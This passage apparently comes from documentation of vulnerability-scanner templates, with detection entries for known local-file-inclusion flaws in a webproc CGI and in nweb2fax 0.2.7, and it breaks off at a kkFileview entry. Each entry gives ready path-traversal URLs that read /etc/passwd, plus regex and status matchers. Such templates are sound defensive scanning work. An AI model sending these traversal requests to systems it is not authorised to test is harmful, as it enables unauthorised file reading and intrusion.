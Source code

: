 - {{BaseURL}}/cgi-bin/webproc?getpage=/etc/passwd&var:page=deviceinfo

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# nweb2fax \<=0.2.7 - Local File Inclusion

## Description

- nweb2fax 0.2.7 and earlier allow remote attackers to read arbitrary files via the id parameter submitted to comm.php and the var_filename parameter submitted to viewrq.php.
- severity - high
- tags - cve2008,nweb2fax,lfi,traversal,edb,cve

## Requests

- Method - GET

### URL

- {{BaseURL}}/comm.php?id=../../../../../../../../../../etc/passwd
- {{BaseURL}}/viewrq.php?format=ps&var_filename=../../../../../../../../../../etc/passwd

### Matchers

**Type - regex**

- part - body
- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# kkFileview v4.0.0 - Directory Traversal

## Description
